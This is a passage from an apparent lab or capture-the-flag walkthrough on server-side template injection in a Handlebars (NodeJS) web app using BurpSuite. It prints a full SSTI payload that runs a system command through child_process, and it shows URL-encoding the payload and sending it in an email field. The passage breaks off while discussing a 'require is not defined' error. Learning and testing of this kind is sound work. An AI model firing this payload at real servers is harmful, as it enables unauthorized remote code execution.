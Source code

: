 
Before we modify the request, let's send this HTTP packet to the `Repeater` module of BurpSuite by pressing `CTRL+R` .
Now let's grab a payload from the section that is titled "`Handlebars (NodeJS)`" in the [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) website.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

This line is the main focus in this exercise:

`{{this.push "return require('child_process').exec('whoami');"}}`

This line instructs the server to execute a specific system command (in this case `whoami`).


### URL Encoding

When making a request to a web server, the data that we send can only contain certain characters from the standard 128 character ASCII set. Reserved characters that do not belong to this set must be encoded. For this reason we use an encoding procedure that is called `URL Encoding`.

With this process for instance, the reserved character `&` becomes `%26`.
Luckily, BurpSuite has a tab called `Decoder` that allows us to either decode or encode the text of our choice with various different encoding methods, including URL.

Let's paste the above payload into the top pane of the Decoder and select `Encode as > URL`.

![[Pasted image 20240914150527.png]]

We copy the URL encoded payload that is in the bottom pane, and paste it in the `email=` field via the `request` tab.
Then we click the `Send` button in the top of the `Repeater` page.

![[Pasted image 20240914150948.png]]

In the response, we can read an error: `"ReferenceError: require is not defined"`.
Taking a look at the payload we notice this piece of code:
